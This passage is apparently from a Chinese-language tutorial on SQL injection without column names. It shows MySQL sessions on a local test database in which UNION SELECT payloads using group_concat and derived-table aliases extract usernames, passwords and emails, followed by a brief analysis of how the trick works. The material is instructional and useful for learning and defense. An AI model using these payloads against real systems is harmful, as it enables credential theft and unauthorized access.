 ```
+----+------------+------------+
2 rows in set
Time: 0.008s
```

## 无列名注入

1. union

```
mysql root@localhost:sql_injection_test> select * from table1 where id='1' union select 1,(select group_concat(b) from (select 1,2 as b,3,4 union select * from table1)a),3,4;
+----+-----------------------+----------+-----------------+
| id | username              | password | email           |
+----+-----------------------+----------+-----------------+
| 1  | admin                 | admin!@# | admin@admin.org |
| 1  | 2,admin,tim,mike,mike | 3        | 4               |
+----+-----------------------+----------+-----------------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 where id='1' union select 1,(select group_concat(b) from (select 1,2,3 as b,4 union select * from table1)a),3,4;
+----+-------------------------------------+----------+-----------------+
| id | username                            | password | email           |
+----+-------------------------------------+----------+-----------------+
| 1  | admin                               | admin!@# | admin@admin.org |
| 1  | 3,admin!@#,123456,asdfqwer,asdfqwer | 3        | 4               |
+----+-------------------------------------+----------+-----------------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 where id='1' union select 1,(select group_concat(b) from (select 1,2,3,4 as b union select * from table1)a),3,4;
+----+------------------------------------------------------------+----------+-----------------+
| id | username                                                   | password | email           |
+----+------------------------------------------------------------+----------+-----------------+
| 1  | admin                                                      | admin!@# | admin@admin.org |
| 1  | 4,admin@admin.org,tim@qq.com,mike@gmail.com,mike@gmail.com | 3        | 4               |
+----+------------------------------------------------------------+----------+-----------------+
2 rows in set
Time: 0.008s
```

>分析

```
mysql root@localhost:sql_injection_test> select 1,2 as b,3,4 union select * from table1
+---+-------+----------+-----------------+
| 1 | b     | 3        | 4               |
+---+-------+----------+-----------------+
| 1 | 2     | 3        | 4               |
| 1 | admin | admin!@# | admin@admin.org |
| 2 | tim   | 123456   | tim@qq.com      |
| 3 | mike  | asdfqwer | mike@gmail.com  |
| 4 | mike  | asdfqwer | mike@gmail.com  |
+---+-------+----------+-----------------+
5 rows in set
Time: 0.008s
```
